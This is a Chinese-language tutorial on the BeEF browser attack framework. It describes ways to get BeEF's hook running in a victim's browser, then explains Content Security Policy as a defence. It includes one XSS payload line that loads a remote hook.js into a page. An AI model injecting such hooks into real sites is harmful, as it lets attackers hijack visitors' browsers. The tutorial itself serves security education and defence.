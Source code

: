 ## 浏览器攻击框架BeEF Part 2：初始化控制

## 浏览器攻击方法流程

攻击浏览器一般分为几个阶段，看下图：

[![1.png](https://image.3001.net/images/20180629/1530235168529.png!small)](https://image.3001.net/images/20180629/1530235168529.png)整个过程分为三个步骤，第一步是初始化控制，第二步是持续控制，第三步是攻击。在第三步中的七个攻击方法是可以交叉的，比如可以同时攻击用户和攻击Web应用。接下来会一章一章的介绍这些内容。这一章介绍初始化控制。

## 初始化控制

首先在这一章中会介绍初始化控制的方法。初始化控制也就是想办法让BeEF服务器勾子（还记得上一章的hook.js吗）在用户浏览器中运行，勾子初次运行会收集一些有用的信息返回给服务器，并做好后续准备。初始化控制常见的攻击方法有以下几个：

> ​          1.使用XSS攻击
>
> ​          2.使用有隐患的Web应用
>
> ​          3.使用广告网络
>
> ​          4.使用社会工程攻击
>
> ​          5.使用中间人攻击

上面这个五个方法是比较常见，并不代表全部的攻击方法。下面就一一介绍这五种方法。

## 使用XSS攻击

Freebuf有很多关于XSS的文章，读者可以自行查阅。这里就不展开说，留点篇幅来介绍其他的方法。使用XSS攻击能在页面中插入类似下面的语句就可以了。

```
<script src="http://127.0.0.1:3000/hook.js"></script>
```

如果是在真实环境中使用，那么就有可能需要绕过XSS的防御机制。XSS的防御机制可以大致分为浏览器XSS防御机制和服务器的WAF。现代浏览器中都内置了XSS防御机制，比如Chrome和Safari的XSS Auditor, IE的XSS过滤器， 以及Firefox的NoScript扩展。笔者在用dwva做反射型xss测试时发现一个有意思的事情，国内的一些流行的浏览虽然能检测出XSS的向量，却还是加载并运行XSS的向量。至于服务器的WAF，这就有很多了。上述的两种XSS防御机制是有可能被绕过的。

对于BeEF这种需要加载远程js（hook.js）的XSS攻击，还有一种更好防御方法。那就是CSP(Content Security Policy, 内容安全策略)，CSP是一个额外的安全层，用于检测并削弱某些特定类型的攻击，包括跨站脚本 ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)) 和数据注入攻击等。这里只介绍CSP是如何防御BeEF这种攻击的，CSP详细的内容读者可以参考：

https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP

https://developer.mozilla.org/zh-CN/docs/Web/Security/CSP/CSP_policy_directives

对于防御BeEF这类需要加载远程js的攻击来说可以使用CSP规定页面从哪里加载脚本，同时还可以规定对这些脚本作出限制，比如限制执行javascript的eval()函数。

可以通过两种方法来使用CSP， 一种是配置WEB服务器返回Content-Security-Policy 首部,  第二种是使用<meta>元素。

下面给个典型的例子：

```
Content-Security-Policy: default-src 'self'   //网站管理者想要页面的所有内容（js, 图片, css等资源）均来自站点的同一个源 (不包括其子域名)

<meta http-equiv="Content-Security-Policy" content="default-src 'self' ">
```
